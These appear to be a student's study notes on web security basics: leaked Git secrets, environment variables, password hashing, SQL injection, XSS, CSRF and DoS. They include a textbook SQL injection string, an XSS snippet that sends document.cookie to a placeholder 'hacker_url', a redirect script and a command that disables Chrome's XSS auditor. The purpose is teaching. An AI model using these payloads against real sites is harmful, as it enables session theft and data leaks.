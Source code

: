 ## Security 

***Git***
- open source - everyone can see it. 
	- people can find bug to fix or exploite
- people can login your acocunts

- accidentally commit with access token or keys



HTTP vs HTTPS
- share-key cryptography 
- public key cryptography


Environment variable
- instead of putting token or key in the code, use environment variables.
- The environment variables is variable locate to the operating system
- flask example, app.config["SECRET_KEY"] = os.environ.get("SECRET_KEY")



Storing username and password hash
	- take username and password from user, run the password thru hash function, then compare with the hash in the database
	- 


SQL Injection
	- injecting sql code to run on the remote database and leak data 
	- 1' OR '1' = '1'
	- SELECT * FROM users 
		WHERE (username = 'alice')
		AND (password = '1' OR '1' = '1')     <-- this will return true

	- whereever user's input is put into a sql query, will need to escape any special characters that can potentially be part of the sql query 



API key
	- when make API request, need to submit the request with key
	- with api key, can limit request base on key and implement route authentication 


JavaScript 
	- cross site scripting - malicious user get someone to click on the browser link and that run some javascript on the broswer
	- injecting javascript code to database and run when user request data and browser render it

Chrome has built-in cross-script 
~~~
chrome --disable-xss-auditor
~~~

img src will run the request automatically when try to render the page
~~~
<script type="text/javascript">
	document.write('<img src="hacker_url?cookies="+document.cookie+">"")
</script>

~~~


~~~
<script type="text/javascript">
	window.location="some_url"
</script>

~~~


cross-site request forgery 
	- forgy request to another website that user might be login to 


User account permission 
	- link one platform to another. Multiple mediums to conpromise data

DoS
	- multiple requests from the same machine 

DDoS 
	- multiple requests from many machines
	- battle of resources, need to be deal with at the server or isp level 
	- limit request, blacklisting 


OWASP Top 10
















